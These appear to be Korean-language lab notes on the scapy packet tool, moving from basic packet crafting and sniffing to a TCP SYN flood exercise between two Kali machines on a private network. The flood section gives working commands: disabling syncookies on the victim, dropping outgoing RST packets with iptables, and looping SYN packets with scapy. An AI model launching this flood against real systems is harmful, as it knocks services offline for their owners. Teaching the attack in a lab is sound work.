






# scapy

파이썬으로 작성된 패킷 조작 도구

패킷 디코딩, 전송, 캡처, 수정 등 다양한 기능을 제공

스카피는 계층 레이어를 쌓을 수 있다

<https://www.itlkorea.kr/data/scapy-pocket-guide0.2.pdf>

### scapy 실행

```bash
scapy
```

### 지원하는 프로토콜을 확인

```
ls()
```



### TCP 헤더 정보를 출력

```bash
ls(TCP)
```



```bash
# 현재 설정되어 있는 TCP헤더 정보를 출력
TCP().display()

# 사용가능한 기능을 확인
lsc()
```



```bash
# 현재 설정되어 있는 IP헤더 정보를 출력
IP().display()
# or
ip = IP()    #  변수로 지정
ip.display()
```



```bash
# ip destination 값을 192.168.44.144로 변경
ip.dst="192.168.44.144"
ip.display()
```



```bash
# scapy는 전송 계층을 쌓을 수 있다. 캡슐래이션 하는 방법을 알아보자
ip = IP()
tcp = TCP()
packet = ip/tcp
packet.display()
```



```bash
# sniffing하기
sniff()

# sniffing 결과를 sf 변수에 저장
sf = sniff()    # 실행하고 웹브라우저에서 사이트에 접속해보자
sf.display()

# 10개의 정보만 스니핑
sf = sniff(count=10)
sf.display()

# 스니핑 한 결과의 0번째를 자세하게 보여준다
sf[0].show()
```

## scapy를 이용한 3way handshaking

```bash
ip = IP()
ip.display()

ip.dst = "192.168.44.144"
ip.display()

tcp = TCP()
tcp.display()
# 플래그가 s로 되어있다

# sport 를 변경해준다
# RandNum 파이썬에서 랜덤넘버 생성 함수
tcp.sport = RandNum(1024, 65535)
tcp.display()

# 패킷을 만들어 쌓는다
syn = ip/tcp

#
syn_ack = sr1(syn)
syn_ack.display()

#
ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq+1)
send(ack)

```

wireshark로 확인
3way 핸드 쉐이크를 하려면 빠르게 입력해야 한다
셸스크립트를 작성해서 빠르게 입력되도록 한다

싱크플러딩
싱크 아크/싱크 아크를 보내야하는데
아크를 안보내면 싱크가 계속 기다린다

## TCP SYN Flooding

kali1 (피해자) 클라이언트에서 원활한 실습을 위해 설정을 변경한다

```bash
root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1    # syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"

root@kali:~# sysctl -w net.ipv4.tcp_syncookies=0
net.ipv4.tcp_syncookies = 0
root@kali:~# sysctl -a | grep syncookies
sysctl: reading key "net.ipv6.conf.all.stable_secret"
net.ipv4.tcp_syncookies = 0
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"


```

@Kali#2 에서 RST 패킷이 외부로 나가지 못 하도록 방화벽에 등록

## TCP SYN Flooding

```bash
# scapy에서 나온다
exit()

# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP

# scapy로 들어간다
scapy

ip = IP()
ip.dst="192.168.44.144"
tcp = TCP()
tcp.dport = 80
tcp.sport = RandNum(1024,65535)
tcp.flags = "S"
syn = ip/tcp
send(syn, loop=True)

싱크플러딩 공격
공격자가 피공격자에게 아크를 보내야 하는데 싱크만 계속 보낸다

```

kali1 피해자 클라이언트에서 확인

```bash
# kali1에서 와이어샤크를 띄운다(패킷확인)
wireshark  # ip.addr == 공격자주소 입력

# 터미널에서 실행
netstat -an | grep -i syn_recv

싱크 리시브 상태만 가지고 있다
ddos 공격
```
